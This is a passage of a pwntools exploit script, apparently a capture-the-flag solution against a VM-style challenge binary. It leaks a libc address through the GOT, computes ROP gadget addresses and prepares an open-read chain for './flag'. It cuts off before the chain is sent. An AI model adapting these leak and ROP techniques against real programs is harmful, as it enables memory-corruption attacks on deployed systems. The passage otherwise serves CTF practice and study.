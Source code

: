 ```python
        r.sendline(str(addr))
        
        
        r.sendline(push)
        
        
        r.sendline(str(fd))
        
        
        r.sendline(call)
        
        
        r.sendline(str(0))
        
        
        r.sendline(hlt)
        
        
        r.sendline(run)
def write(fd,addr,size):
        r.sendline(push)
      
        
        r.sendline(str(size))
        
        
        r.sendline(push)
        
        
        r.sendline(str(addr))
        
        
        r.sendline(push)
        
        
        r.sendline(str(fd))
        
        
        r.sendline(call)
        
        
        r.sendline(str(1))
        
        
        r.sendline(hlt)
        
        
        r.sendline(run)
#gdb.attach(r)

write(1,elf.got['puts'],0x10)
leak=u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-libc.sym['puts']
print(hex(leak))
rdi = leak+libc.search(asm("pop rdi\nret")).__next__()
rsi = leak+libc.search(asm("pop rsi\nret")).__next__()
rdx = leak+libc.search(asm("pop rdx\nret")).__next__()
r.recv()
read(0,0x123200,0x10)
r.recv()
r.send("./flag\x00")

opens=leak+libc.sym['open']
readd=leak+libc.sym['read']
```